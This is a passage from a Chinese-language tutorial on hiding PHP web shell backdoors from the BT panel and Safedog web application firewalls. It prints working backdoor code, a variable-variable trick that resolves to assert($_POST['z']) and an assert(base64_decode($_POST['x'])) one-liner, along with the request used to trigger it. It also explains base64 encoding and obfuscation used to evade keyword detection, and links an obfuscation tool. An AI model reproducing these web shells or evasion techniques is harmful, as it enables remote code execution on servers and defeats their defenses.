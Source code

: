 $a = $\_GET\['x'\];

$$a = $\_GET\['y'\];

$b($\_POST\['z'\]);

?>

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQOEPzWv5WOW7dLuia6tV5NmAd7PGVxal7Yv2AvVic0EhnUoU0CB9kia0DQ%2F640%3Fwx_fmt%3Dpng)

利用：

```
例如：后门文件为 1.php 则，在服务器上使用 http://IP/1.php?x=b&y=assert 即可 实现因为这样赋值后$a=b $$a=assert=$b 所以直接变成了 assert($\_POST\[‘z’\]);
```





![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQibJsktKI8VFzH4DRTkwP94HkQDXicBxDlq4icPqXLQofSqia36YB2KW4YA%2F640%3Fwx_fmt%3Dpng)

③加密传输

思路：后门直接调用 system|phpinfo 等敏感字段时会被 BT 所拦截，尤其是 BT 的 WAF 会拦截 /\* 字符的出现，在绕过时，就需要配合截断(%00)，去处理或者相关加密技术 在上述调用 phpinfo() 时，是没开启 BT 的，之开启 safedog 模式，所以没有出现拦截， 一旦开启了 BT，就会对特殊的关键词进行拦截

下面便是 BT 拦截的相关字段

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQh0JQOnC9qGDG8iaaVv4RcLnuzr6mG9XKDxgD7LoQ7iaiaGATibN4gwbTmQ%2F640%3Fwx_fmt%3Dpng)

从而就衍生了加密的方式进行绕过，因为 BT 只对指定的字段进行加密，所以可以从加 密方面进行字段上的绕过 如典型的可逆的 base64 编码

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQjibFXlJEib2OlvB1dC0PJCc6icR3q6qN5cibZduEcRhLplCaVicpQqFodFg%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ41Pta3Igic4lPas8KHH0B1ke2PLic00U01yuAhaa8AxxoqNENoFPyAVw%2F640%3Fwx_fmt%3Dpng)

利用：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQBcN2kxjODD1DZk3YSql86o97Lpwibfia63Qibhnticzoa9UwTkyS2H279A%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQmm2Rd6CXYTlyRQPtzXUMhBLWiaj1phw0NvCuicR1kPJYnZVXt3VLYOgQ%2F640%3Fwx_fmt%3Dpng)

注意：在 BT 里是会变量进行关键词检测的，也就是如果在变量里出现 base64 字段就会 进行拦截，不过此时在这并没有在变量中调用 base64，而是后门文件中调用了，所以不拦 截。

④加密混淆

思路： 既然可以加密传输，就会有其它加密的方法，就有了加密混淆使得 WAF 软件无 法检测到关键字段同样达到 WAF 的绕过

PHP 混淆加密脚本下载地址： https://github.com/djunny/enphp

后门语句:

目标加密语句: <?phpassert(base64\_decode($\_POST\['x'\])); ?>

通过命令混淆后如下:

参考命令:D:\\phpStudy\\PHPTutorial\\php\\php-5.4.45\\php.exe code\_test.php

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ3NA9iapl9Vz4W35XdC2EP0J95rnpNbuSFDastOMn75oYdHYn4bEibicPw%2F640%3Fwx_fmt%3Dpng)
